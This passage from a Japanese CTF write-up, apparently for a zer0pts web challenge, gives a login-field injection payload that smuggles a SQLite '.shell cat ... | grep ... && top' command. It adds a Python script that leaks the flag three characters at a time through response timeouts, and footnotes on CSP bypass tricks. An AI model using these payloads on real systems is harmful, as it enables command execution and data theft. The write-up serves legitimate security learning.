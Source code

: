 ```fish
</html>
```

`Too long username or password`と怒られてしまいました。
ソースコードを読むと
```python
    if len(username) > 32 or len(password) > 32:
        flask.session['msg'] = 'Too long username or password'
        return flask.redirect(flask.url_for('home'))
```
とあり、32文字以下という制限があります。

とりあえず
```
";\n.shell cat */*|grep s{prefix&&top\n
```
でだいぶ短くなりました。
文字数は `31 + len(prefix)` です。厳しい。

これより短くする方法がしばらく思いつかなかったのですが、grepの引数のところで3文字まで使えることから、3文字ずつ判定するクエリを投げる方法でフラグを確定できないかと考え、スクリプトを書きました。

### 攻撃

できたスクリプトはこちらです。

```python
import httpx
import string

chars = "_}" + string.ascii_letters + string.digits

url = "http://web.ctf.zer0pts.com:8004/login"
# url = "http://localhost:8004/login"


def query(prefix: str) -> bool:
    n = 3
    chunk = prefix[-n:]
    payload = '";\n.shell cat */*|grep ' + chunk + '&&top\n'
    data = {
        "username": payload,
        "password": "abc",
    }

    try:
        res = httpx.post(url, data=data, timeout=3)
        assert res.status_code == 200
        assert "Too long username or password" not in res.text
        return False
    except httpx.ReadTimeout:
        return True


def rec(current_prefix: str) -> bool:
    if current_prefix.endswith("}"):
        print("result: ", current_prefix)
        return True

    print(current_prefix)
    for c in chars:
        prefix = current_prefix + c
        if query(prefix):
            if rec(prefix):
                return True
    return False

```

[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。
[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。
[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet